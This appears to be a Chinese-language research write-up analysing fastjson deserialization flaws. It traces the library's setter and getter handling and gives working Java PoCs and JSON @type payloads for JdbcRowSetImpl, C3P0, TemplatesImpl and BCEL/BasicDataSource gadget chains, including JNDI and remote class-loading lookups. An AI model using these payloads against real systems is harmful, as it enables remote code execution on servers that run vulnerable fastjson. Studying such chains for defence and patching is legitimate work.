[](https://xzfile.aliyuncs.com/media/upload/picture/20200102094419-64832920-2d01-1.jpg)

在进入build函数后会遍历一遍传入class的所有方法，去寻找满足set开头的特定类型方法；再遍历一遍所有方法去寻找get开头的特定类型的方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20200102094419-64d40dd6-2d01-1.jpg)

**set开头的方法要求如下：**

- 方法名长度大于4且以set开头，且第四个字母要是大写
- 非静态方法
- 返回类型为void或当前类
- 参数个数为1个

寻找到符合要求的set开头的方法后会根据一定规则提取方法名后的变量名（好像会过滤_，就是set_name这样的方法名中的下划线会被略过，得到name）。再去跟这个类的属性去比对有没有这个名称的属性。

如果没有这个属性并且这个set方法的输入是一个布尔型（是boolean类型，不是Boolean类型，这两个是不一样的），会重新给属性名前面加上**is**，再取头两个字符，第一个字符为大写（即isNa），去寻找这个属性名。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200102094420-650126fe-2d01-1.jpg)

> 这里的is就是有的网上有的文章中说反序列化会自动调用get、set、is方法的由来。个人觉得这种说法应该是错误的。
>
> 真实情况应该是确认存在符合setXxx方法后，会与这个方法绑定一个xxx属性，如果xxx属性不存在则会绑定isXx属性（这里is后第一个字符需要大写，才会被绑定）。并没有调用is开头的方法
>
> 自己从源码中分析或者尝试在类中添加isXx方法都是不会被调用的，这里只是为了指出其他文章中的一个错误。这个与调用的set方法绑定的属性，再之后并没有发现对于调用过程有什么影响。
>
> 所以只要目标类中有满足条件的set方法，然后得到的方法变量名存在于序列化字符串中，这个set方法就可以被调用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200102094420-650126fe-2d01-1.jpg)

**get开头的方法要求如下：**

- 方法名长度大于等于4
- 非静态方法
- 以get开头且第4个字母为大写
- 无传入参数
- 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong

例如

```java
package com.fastjson;

import java.util.Properties;

public class Person {
    //属性
    public String name;
    private String full_name;
    private int age;
    private Boolean sex;
    private Properties prop;
    //构造函数
    public Person(){
        System.out.println("Person构造函数");
    }
    //set
    public void setAge(int age){
        System.out.println("setAge()");
        this.age = age;
    }
    //get 返回Boolean
    public Boolean getSex(){
        System.out.println("getSex()");
        return this.sex;
    }
    //get 返回ProPerties
    public Properties getProp(){
        System.out.println("getProp()");
        return this.prop;
    }
    //在输出时会自动调用的对象ToString函数
    public String toString() {
        String s = "[Person Object] name=" + this.name + " full_name=" + this.full_name  + ", age=" + this.age + ", prop=" + this.prop + ", sex=" + this.sex;
        return s;
    }
}
```

例子中的getsex方法没有被调用是因为返回类型不符合，而getprop方法被成功调用是因为Properties 继承 Hashtable，而Hashtable实现了Map接口，返回类型符合条件。

再顺便看一下最后触发方法调用的地方com.alibaba.fastjson.parser.deserializer.FieldDeserializer#setValue，（在被调用的方法中下断点即可）

[](https://xzfile.aliyuncs.com/media/upload/picture/20200102094420-655fe450-2d01-1.jpg)

那么至此我们可以知道

- 被屏蔽的type可以指定反序列化成服务器上的任意类
- 然后服务端会解析这个类，提取出这个类中符合要求的setter方法与getter方法（如setxxx）
- 如果传入json字符串的键值中存在这个值（如xxx)，就会去调用执行对应的setter、getter方法（即setxxx方法、getxxx方法）

> 上面说到readObejct("")还会额外调用toJSON调用所有getter函数，可以不符合要求。

看上去应该是挺正常的使用逻辑，反序列化需要调用对应参数的setter、getter方法来恢复数据。

但是在可以调用任意类的情况下，如果setter、getter方法中存在可以利用的情况，就会导致任意命令执行。

## [<=1.2.24]JNDI JdbcRowSetImpl

> 很多利用链的方法同jackson, 不会细讲太多

利用链: com.sun.rowset.JdbcRowSetImpl

整体流程

```
mapper.readValue
    ->com.nqadmin.rowset.JdbcRowSetImpl.setDataSourceName
        ->javax.sql.rowset.BaseRowSet.setDataSourceName
            ->com.nqadmin.rowset.JdbcRowSetImpl.setAutoCommit
                ->this.connect()
                    ->(DataSource)ctx.lookup(this.getDataSourceName())
```

POC

```java
import com.alibaba.fastjson.JSON;

/**
 * fastjson 1.2.22-1.2.24
 */
public class fastjson1222
{
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

## C3P0

在C3P0中有三种利用方式

- http base
- JNDI
- HEX序列化字节加载器

在原生的反序列化中如果找不到其他链，则可尝试C3P0去加载远程的类进行命令执行。JNDI则适用于Jackson等利用。而HEX序列化字节加载器的方式可以利用与fj和Jackson等不出网情况下打入内存马使用。

### http base

#### C3P0的构造

com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase#writeObject

```java
    private void writeObject(ObjectOutputStream oos) throws IOException {
        oos.writeShort(1);

        ReferenceIndirector indirector;
        try {
            SerializableUtils.toByteArray(this.connectionPoolDataSource);
            oos.writeObject(this.connectionPoolDataSource);
        } catch (NotSerializableException var9) {
            MLog.getLogger(this.getClass()).log(MLevel.FINE, "Direct serialization provoked a NotSerializableException! Trying indirect.", var9);

            try {
                indirector = new ReferenceIndirector();
                oos.writeObject(indirector.indirectForm(this.connectionPoolDataSource));
            } catch (IOException var7) {
                throw var7;
            } catch (Exception var8) {
                throw new IOException("Problem indirectly serializing connectionPoolDataSource: " + var8.toString());
            }
        }
```

因为传入的 `this.connectionPoolDataSource` 属于 connectionPoolDataSource 类, 该类没有继承 Serialize 类, 转入catch方法从而触发 ReferenceIndirector#indirectForm 方法

```java
    public IndirectlySerialized indirectForm(Object var1) throws Exception {
        // 强制Referenceable转换调用 connectionPoolDataSource#getReference
        Reference var2 = ((Referenceable)var1).getReference();
        return new ReferenceIndirector.ReferenceSerialized(var2, this.name, this.contextName, this.environmentProperties);
    }
```

这也是我们需要重写这个 `this.connectionPoolDataSource` 的原因, 需要继承 Referenceable 类中方法来获取一个 Reference, 接着就是简单的赋值

```
ReferenceSerialized(Reference var1, Name var2, Name var3, Hashtable var4) {
    this.reference = var1;
    this.name = var2;
    this.contextName = var3;
	this.env = var4;
}
```

接着来看 readObject 方法,  入口为`com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase#readObject` 

```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        short version = ois.readShort();
        switch(version) {
        case 1:
            Object o = ois.readObject();
            if (o instanceof IndirectlySerialized) {
                // 调用 getObject 方法
                o = ((IndirectlySerialized)o).getObject();
            }
```

然后跟进 ReferenceIndirector#getObject

```java
public Object getObject() throws ClassNotFoundException, IOException {
	try {
    	InitialContext var1;
        if (this.env == null) {
        	var1 = new InitialContext();
        } else {
            var1 = new InitialContext(this.env);
        }
        
        Context var2 = null;
        if (this.contextName != null) {
            // 此处有个JNDI注入
        	var2 = (Context)var1.lookup(this.contextName);
        }

        return ReferenceableUtils.referenceToObject(this.reference, this.name, var2, this.env);
```

跟进 ReferenceableUtils#referenceToObject

```java
    public static Object referenceToObject(Reference var0, Name var1, Context var2, Hashtable var3) throws NamingException {
        try {
            String var4 = var0.getFactoryClassName();
            String var11 = var0.getFactoryClassLocation();
            ClassLoader var6 = Thread.currentThread().getContextClassLoader();
            if (var6 == null) {
                var6 = ReferenceableUtils.class.getClassLoader();
            }

            Object var7;
            if (var11 == null) {
                var7 = var6;
            } else {
                URL var8 = new URL(var11);
                var7 = new URLClassLoader(new URL[]{var8}, var6);
            }

            Class var12 = Class.forName(var4, true, (ClassLoader)var7);
            ObjectFactory var9 = (ObjectFactory)var12.newInstance();
            return var9.getObjectInstance(var0, var1, var2, var3);
        } catch (Exception var10) {
            if (logger.isLoggable(MLevel.FINE)) {
                logger.log(MLevel.FINE, "Could not resolve Reference to Object!", var10);
            }

            NamingException var5 = new NamingException("Could not resolve Reference to Object!");
            var5.setRootCause(var10);
            throw var5;
        }
    }
```

如果var11不为null, 则可以通过 URLClassLoader 去加载远程类,  var11获取是在 Reference#getFactoryClassLocation 获取 

```
public String getFactoryClassLocation() {
    return classFactoryLocation;
}
```

`Class.forName` , 可以控制forName⽅法的第⼀个和第三个参数，并且第⼆个参数为 true，那么就可以利用BCEL, ClassLoader实现任意代码加载执行. 第二个参数传了 true，那么给定的类如果之前没有被初始化过，就会被初始化.

此外, PoolBackedDataSource 继承 AbstractPoolBackedDataSource, 同时 AbstractPoolBackedDataSource 继承 PoolBackedDataSourceBase, 致使触发 readObject 时调用 PoolBackedDataSourceBase#readObject, 用其本身也是可行的, 其它的类都会覆写了writeObject和readObject

POC

```java
package cve.fastjson;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;

import com.mchange.v2.c3p0.PoolBackedDataSource;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.commons.codec.binary.Base64;
import sun.reflect.ReflectionFactory;

public class C3P0_HTTP {
    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8079/";
        String className = "test";
        // 不利用构造函数初始化对象, 减小生成代码量
        // Father
        PoolBackedDataSourceBase datasource = createWithoutConstructor(PoolBackedDataSourceBase.class);
        // Son
//        PoolBackedDataSource datasource = createWithoutConstructor(PoolBackedDataSource.class);

        getField(PoolBackedDataSourceBase.class, "connectionPoolDataSource").set(datasource, new PoolSource(className, url));

        try{
            // serialize
            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream objectoutputstream = new ObjectOutputStream(barr);
            objectoutputstream.writeObject(datasource);
            objectoutputstream.close();
            System.out.println(Base64.encodeBase64String(barr.toByteArray()));
            // unserialize
            ObjectInputStream objectinputstream = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
            objectinputstream.readObject();
            objectinputstream.close();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }

    private static final class PoolSource implements ConnectionPoolDataSource, Referenceable {

        private String className;
        private String url;

        public PoolSource ( String className, String url ) {
            this.className = className;
            this.url = url;
        }

        public Reference getReference () throws NamingException {
            return new Reference("exploit", this.className, this.url);
        }

        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T)sc.newInstance(consArgs);
    }
}
```

分析后中间那处JNDI注入是无法通过这个方式达成的, 因为在writeObject的时候无参构造的 ReferenceIndirector 实例, 后续则无法通过外部调用加参

### HEX序列化字节加载器

利用 com.mchange.v2.c3p0.WrapperConnectionPoolDataSource 

反序列化时 `userOverridesAsString` 调用 setter 方法(setUpPropertyListeners) 

```java
else if ("userOverridesAsString".equals(propName)) {
                    try {
                        WrapperConnectionPoolDataSource.this.userOverrides = C3P0ImplUtils.parseUserOverridesAsString((String)val);
                    } catch (Exception var5) {
                        if (WrapperConnectionPoolDataSource.logger.isLoggable(MLevel.WARNING)) {
                            WrapperConnectionPoolDataSource.logger.log(MLevel.WARNING, "Failed to parse stringified userOverrides. " + val, var5);
                        }
```

跟进 C3P0ImplUtils#parseUserOverridesAsString , 这里对传入的Hex字符串进行了解析

```java
    public static Map parseUserOverridesAsString(String userOverridesAsString) throws IOException, ClassNotFoundException {
        if (userOverridesAsString != null) {
            // 提取HexAsciiSerializedMap开头+1个字符至内容最后减一个字符, 也就是 HexAsciiSerializedMap:xxx; 这种格式的由来
            String hexAscii = userOverridesAsString.substring("HexAsciiSerializedMap".length() + 1, userOverridesAsString.length() - 1);
            byte[] serBytes = ByteUtils.fromHexAscii(hexAscii);
            return Collections.unmodifiableMap((Map)SerializableUtils.fromByteArray(serBytes));
        } else {
            return Collections.EMPTY_MAP;
        }
    }
```

跟进 return 中的 SerializableUtils#fromByteArray


一个读取字节再调用 readObject, 二次触发反序列化

POC

```java
{
    "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource", 
    "userOverridesAsString": "HexAsciiSerializedMap:xxx;"
}
```

#### 内网RCE

参考回显马: https://gist.github.com/fnmsd/4d9ed529ceb6c2a464f75c379dadd3a8

然后通过CC链中的字节加载器调用, 这里采用CommonCollections11



### JNDI

利用链: c3p0#JndiRefForwardingDataSource

```
JndiRefDataSourceBase#setJndiName
	JndiRefForwardingDataSource#setLoginTimeout
		JndiRefForwardingDataSource#inner
			JndiRefForwardingDataSource#dereference
				# 此处 try 代码块中调用 lookup 方法
```

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;

public class C3P0_JNDI {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\"," +
                "\"jndiName\":\"ldap://127.0.0.1:1099/calc\"," +
                "\"loginTimeout\":0}";
        JSON.parse(payload);
    }
}
```

## [<=1.2.24]JDK1.7 TemplatesImpl

基于`JDK1.7u21 Gadgets` 的触发点TemplatesImple的利用条件比较苛刻：

1. 服务端使用parseObject()时，必须使用如下格式才能触发漏洞：
   `JSON.parseObject(input, Object.class, Feature.SupportNonPublicField);`
2. 服务端使用parse()时，需要`JSON.parse(text1,Feature.SupportNonPublicField);`

这是因为payload需要赋值的一些属性为private属性，服务端必须添加特性才会去从json中恢复private属性的数据

恶意TemplatesImple类需要满足如下条件:

1. TemplatesImpl类的 `_name` 变量 != null
2. TemplatesImpl类的`_class`变量 == null
3. TemplatesImpl类的 `_bytecodes` 变量 != null
4. TemplatesImpl类的`_bytecodes`是我们代码执行的类的字节码。`_bytecodes`中的类必须是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`的子类
5. 我们需要执行的恶意代码写在`_bytecodes` 变量对应的类的静态方法或构造方法中。
6. TemplatesImpl类的`_tfactory`需要是一个拥有getExternalExtensionsMap()方法的类，使用jdk自带的TransformerFactoryImpl类

然后调用满足条件的恶意TemplatesImple类的getOutputProperties方法, 这是fastjson将自动调用字段的getter方法导致的, 看一下getOutputProperties方法是否满足自动调用getter方法的条件 

```
public synchronized Properties getOutputProperties() {
	try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

- 方法名长度大于等于4
- 非静态方法
- 以get开头且第4个字母为大写
- 无传入参数
- 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong（Properties继承自Hashtables, 实现了Map, 符合）

加上`"_tfactory":{ }`会为 `_tfactory` 自动赋值, 这是因为 fastjson 对于赋值内容的解析步骤时, 当赋值的值为一个空的Object对象时, 会新建一个需要赋值的字段应有的格式的新对象实例

###  _bytecodes 需要 base64编码

 com.alibaba.fastjson.serializer.ObjectArrayCodec#deserialze 

```java
public <T> T deserialze(DefaultJSONParser parser, Type type, Object fieldName) {
        final JSONLexer lexer = parser.lexer;
        if (lexer.token() == JSONToken.NULL) {
            lexer.nextToken(JSONToken.COMMA);
            return null;
        }
        //我们输入的json串中， _bytecodes 字段对应的值是String类型字符串，进入此处
        if (lexer.token() == JSONToken.LITERAL_STRING) {
            byte[] bytes = lexer.bytesValue();//进入此处，获取json串的值恢复到byte数组
            lexer.nextToken(JSONToken.COMMA);
            return (T) bytes;
        }
```

跟进 com.alibaba.fastjson.parser.JSONScanner#bytesValue 

```java
public byte[] bytesValue() {
        return IOUtils.decodeBase64(text, np + 1, sp);//base64解码
    }
```

在代码逻辑中，字段的值从String恢复成`byte[]`，会经过一次base64解码 

### 是否需要加 _

在字段解析之前，会对于当前字段进行一次智能匹配`com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#parseField` 

```java
public boolean parseField(DefaultJSONParser parser, String key, Object object, Type objectType,
                              Map<String, Object> fieldValues) {
        JSONLexer lexer = parser.lexer; 
        FieldDeserializer fieldDeserializer = smartMatch(key);//进入此处，根据json串的字段名来获取字段反序列化解析器
```

跟进 ` com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch`

```java
public FieldDeserializer smartMatch(String key) {
        if (key == null) {
            return null;
        }

        FieldDeserializer fieldDeserializer = getFieldDeserializer(key);

        if (fieldDeserializer == null) {
            boolean startsWithIs = key.startsWith("is");
            ...
                //以下省略了对于is开头的字段的一些判断逻辑。
                //好像满足了一定条件，会去跟对应的符合getter，setter的方法名匹配
            }
        }
        //遍历我们输入的key的每一个字符，匹配第一个-或_替换为空
        if (fieldDeserializer == null) {
            boolean snakeOrkebab = false;
            String key2 = null;
            for (int i = 0; i < key.length(); ++i) {
                char ch = key.charAt(i);
                if (ch == '_') {
                    snakeOrkebab = true;
                    key2 = key.replaceAll("_", "");
                    break;
                } else if (ch == '-') {
                    snakeOrkebab = true;
                    key2 = key.replaceAll("-", "");
                    break;
                }
            }
         //接下来根据替换后的key2，去寻找对应符合getter，setter的方法名进行匹配
```

此思路同样用于 xalan 依赖包 ` com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl `

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import javassist.ClassPool;
import org.apache.commons.codec.binary.Base64;
import service.Evil;
import service.xalanEvil;

public class TemplatesImpl {
    public static void main(String[] args) throws Exception{
        ParserConfig config = new ParserConfig();
        String payload = Base64.encodeBase64String(ClassPool.getDefault().get(Evil.class.getName()).toBytecode());
        //原始方法 jdk1.7
        String json = "{" +
                "\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_bytecodes\":[\""+payload+"\"]," +
                "\"_name\":\"Evil\","+
                "\"_tfactory\":{ }," +
                "\"_outputProperties\":{ }" +
                "}";
//        System.out.println(json);
        Object obj = JSON.parseObject(json, Object.class, config, Feature.SupportNonPublicField);

        //xalan依赖包jdk1.7-1.8通用
        String xalanpayload = Base64.encodeBase64String(ClassPool.getDefault().get(xalanEvil.class.getName()).toBytecode());
        String xalanjson = "{" +
                "\"@type\":\"org.apache.xalan.xsltc.trax.TemplatesImpl\"," +
                "\"_bytecodes\":[\""+xalanpayload+"\"]," +
                "\"_name\":\"Evil\","+
                "\"_tfactory\":{ }," +
                "\"_outputProperties\":{ }" +
                "}";
//        System.out.println(xalanjson);
//        Object xalanobj = JSON.parseObject(xalanjson, Object.class, config, Feature.SupportNonPublicField);
    }
}
```

## BCEL回显

在Java 8u251以后, bcel类被删除

参考: 

- https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html
- https://blog.csdn.net/qq_41918771/article/details/122299914

tomcat7

```
org.apache.tomcat.dbcp.dbcp.BasicDataSource
```

tomcat8及其以后

```
org.apache.tomcat.dbcp.dbcp2.BasicDataSource
```

利用的是`BasicDataSource`类, 依赖`tomcat-dbcp`, 整体流程

```
BasicDataSource.getConnection() > createDataSource()​ > createConnectionFactory()
```

首先调用的是`getConnection`方法，跟进`createDataSource`，再跟进`createConnectionFactory` 

```java
protected ConnectionFactory createConnectionFactory() throws SQLException {
    Driver driverToUse = this.driver;
    if (driverToUse == null) {
        Class<?> driverFromCCL = null;
        String message;
        if (this.driverClassName != null) {
            try {
                try {
                    if (this.driverClassLoader == null) {
                        driverFromCCL = Class.forName(this.driverClassName);
                    } else {
                    	// 这里的driverClassName和driverClassLoader是可控的。
                        driverFromCCL = Class.forName(this.driverClassName, true, this.driverClassLoader);
                    }
                } catch (ClassNotFoundException var5) {
                    driverFromCCL = Thread.currentThread().getContextClassLoader().loadClass(this.driverClassName);
                }
            }
        ...
}
```

设置`driverClassLoader`为`com.sun.org.apache.bcel.internal.util.ClassLoader`，设置`driverClassName`为恶意的BCEL格式的字节码 

setDriverClassLoader对应代码如下

```
public synchronized void setDriverClassLoader(ClassLoader driverClassLoader) {
    this.driverClassLoader = driverClassLoader;
}
```

setDriverClassName对应代码如下

```
public synchronized void setDriverClassName(String driverClassName) {
    if (driverClassName != null && driverClassName.trim().length() > 0) {
        this.driverClassName = driverClassName;
    } else {
        this.driverClassName = null;
    }
}
```

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import service.EvilBCEL;

public class fastjsonBCEL {
    public static void main(String[] args) throws Exception{
        JavaClass cls = Repository.lookupClass(EvilBCEL.class);
        String code = Utility.encode(cls.getBytes(),true);
        String payload =
                "{\n"
                        + "    {\n"
                        + "        \"x\": {\n"
                        + "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n"
                        + "                \"driverClassLoader\": {\n"
                        + "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n"
                        + "                },\n"
                        + "                \"driverClassName\": \"$$BCEL$$"+code+"\"\n"
                        + "        }\n"
                        + "    }:\"x\"\n"
                        + "}";
        JSON.parse(payload);
    }
}
```

### fastjson如何调用`BasicDataSource`的`getConnection`方法

>FastJson中的 parse() 和 parseObject()方法都可以用来将JSON字符串反序列化成Java对象，parseObject() 本质上也是调用 parse() 进行反序列化的。但是 parseObject() 会额外的将Java对象转为 JSONObject对象，即 JSON.toJSON()。所以进行反序列化时的细节区别在于，parse() 会识别并调用目标类的 setter 方法及某些特定条件的 getter 方法，而 parseObject() 由于多执行了 JSON.toJSON(obj)，所以在处理过程中会调用反序列化目标类的所有 setter 和 getter 方法。 

回顾整个POC

```
{
    {
        "x": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$..."
        }
    }:"x"
}
```

这个POC利用了`JSONObject#toString`方法来执行了`getConnection`方法 

首先在`{“@type”: “org.apache.tomcat.dbcp.dbcp2.BasicDataSource”……}` 这一整段外面再套一层`{}`，这样的话会把这个整体当做一个JSONObject，会把这个当做key，值为xxx

在`DefaultJSONParser.parseObject`方法后面会调用key的toString方法 

```
if (object.getClass() == JSONObject.class) {
	key = key == null ? "null" : key.toString();
}
```

key为`JSONObject`对象，会调用该对象的toString方法。而且JSONObject是Map的子类，当调用`toString`的时候，会依次调用该类的getter方法获取值。然后会以字符串的形式输出出来。所以会调用到`getConnection`方法。 

POC的完整写法

```
{
    {
    	"@type": "com.alibaba.fastjson.JSONObject",
        "x": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$..."
        }
    }:"x"
}
```

 此利用链只能应用于`fastjson<=1.2.36`，在1.2.37版本中，直接去掉了`key.toString`方法

### [>=1.2.36]利用 fastjson $ref 构造 poc

参考: 

- https://su18.org/post/fastjson-1.2.68
- https://paper.seebug.org/1613/

从 fastjson 1.2.36开始，可以通过 `$ref` 指定被引用的属性。

ref是fastjson特有的[JSONPath](https://github.com/itguang/gitbook-smile/blob/master/springboot-fastjson/fastjson%E4%B9%8BJSONPath%E4%BD%BF%E7%94%A8.md)语法，用来引用之前出现的对象

| JSONPATH                                          | 描述                                                         |
| ------------------------------------------------- | ------------------------------------------------------------ |
